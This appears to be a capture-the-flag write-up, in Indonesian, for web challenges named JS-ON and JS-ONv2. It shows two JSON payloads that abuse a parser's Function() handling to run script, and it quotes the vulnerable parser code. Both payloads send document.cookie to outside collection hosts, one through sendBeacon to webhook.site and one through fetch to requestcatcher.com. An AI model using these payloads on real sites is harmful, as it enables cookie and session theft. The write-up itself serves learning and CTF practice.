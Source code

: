 ```json 
{
    "func_onanimationend": "navigator.sendBeacon('https://webhook.site/...', document.cookie)",
    "obj_document": {
        "obj_head": {
            "obj_firstElementChild": {
                "var_innerText": "@keyframes xss{} body{animation-name: xss;}"
            }
        }
    }
}
```

```json 
{
    "func_Function": "fetch('https://l.requestcatcher.com/'+document.cookie);",
    "obj_lol": {
        "func_pepe": "lol"
    }
}
```

# JS-ONv2 - web
Challenge ini memiliki source code yang hapir sama dengan challenge sebelumnya. Pada challenge ini kita perlu untuk membypass sebuah blacklist yang kita tidak tahu.

Untuk challenge ini kita akan mensolvenya dengan mengoverwrite sebuah fungsi yang di call di dalam fungsi berikut:

```javascript
...snip...
                const handleKeys = (JSon,cur)=>{
                    Object.keys(JSon).forEach(key=>{
                        try{
                            let keywords = key.split('_');
                            let type = keywords[0];
                            let name =  keywords[1];
                            switch(type){
                                case 'var':
                                    if(typeof JSON[key] === 'string'){
                                        JSON[key] = JSON[key].replaceAll('<','').replaceAll('>','');
                                    }
                                    cur[name] = JSon[key];
                                    break;
                                case 'func':
                                    if(!(cur[name] in cur)){
                                        cur[name] = Function(JSon[key])
                                    }
                                    break;
                                case 'obj':
                                    cur[name] = cur[name] == undefined ? {} : cur[name];
                                    cur = handleKeys(JSon[key],cur[name]);
                                    break;
                            }
                        }
                        catch(e){
                            throw new Error('Error while parsing JS-ON!')
                        }
                    })
                    return cur;
                }
                handleKeys(JSon,this)
...snip...
```